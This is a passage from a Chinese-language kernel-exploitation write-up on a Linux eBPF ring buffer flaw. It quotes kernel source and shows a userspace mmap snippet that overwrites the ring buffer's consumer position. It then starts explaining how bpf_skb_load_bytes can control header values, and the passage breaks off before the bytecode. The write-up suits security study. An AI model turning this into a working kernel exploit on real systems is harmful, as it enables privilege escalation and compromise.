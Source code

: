 `ringbuf_map_mmap_kern()` 會 map ring buffer，但不是直接 mapping 整個 `bpf_ringbuf` object，而是多做了一些處理跟檢查：1. 只有 consumer position 可以被修改，producer position 與 data 只能讀 [1]，2. `bpf_ringbuf` object 的第一個 page 不會被 map，也就是會從 `RINGBUF_PGOFF` 開始 [2]。

```c
// kernel/bpf/ringbuf.c
static int ringbuf_map_mmap_kern(struct bpf_map *map, struct vm_area_struct *vma)
{
    struct bpf_ringbuf_map *rb_map;

    rb_map = container_of(map, struct bpf_ringbuf_map, map);

    if (vma->vm_flags & VM_WRITE) {
    if (vma->vm_pgoff != 0 || vma->vm_end - vma->vm_start != PAGE_SIZE) // [1]
        return -EPERM;
    }

    // [...]
    return remap_vmalloc_range(vma, rb_map->rb,
            vma->vm_pgoff + RINGBUF_PGOFF); // [2]
}
```

因此 userspace program 只要直接 mmap ringbuf 大小 0x1000 [3]，就可以修改 consumer position 成任意值 [4]。

```c
void *consumer_pos = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, ringbuf, 0); // [3]
*(unsigned long *)consumer_pos = 0x3000; // [4]
```

除了第二個步驟外的操作都很直觀，就按照說明寫 bytecode 而已。構造好 BPF program 後，最後就能在 `bpf_ringbuf_commit()` 使用到被蓋寫後的 header，產生與預期不同的執行流程。



### Exploit

不過 ring buffer 初始值都會是 0，如果要準確控制 header value 的話，需要想辦法寫資料到 ring buffer 當中。根據不同種類的 BPF program 會有不同的 helper 可以使用。當 program type 為 `BPF_PROG_TYPE_SOCKET_FILTER` 時，可以透過 `sk_filter_func_proto()` 的實作知道哪些 helper 是可以用的，並從中找出可以把資料寫到 ring buffer 的 helper。

```c
// net/core/filter.c
static const struct bpf_func_proto *
sk_filter_func_proto(enum bpf_func_id func_id, const struct bpf_prog *prog)
{
    switch (func_id) {
    case BPF_FUNC_skb_load_bytes:
        return &bpf_skb_load_bytes_proto;
        // [...]
    }
}
```

我選的是 helper `BPF_FUNC_skb_load_bytes`，該 helper 能夠複製 packet payload 到 buffer 中，所以可以透過寫入 socket 的內容來控 header，範例的 bytecode 如下：
